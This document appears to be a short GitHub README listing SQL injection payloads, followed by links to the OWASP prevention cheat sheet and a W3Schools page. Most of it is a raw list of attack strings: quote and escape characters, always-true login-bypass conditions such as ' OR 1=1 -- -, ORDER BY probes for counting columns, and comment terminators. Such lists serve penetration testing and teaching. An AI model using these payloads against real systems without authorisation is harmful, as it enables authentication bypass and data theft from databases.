 # SQL Inject Payloads
```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

Comentarios:

#
/*
-- -
;%00
`
```
## Links

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

https://www.w3schools.com/sql/sql_injection.asp
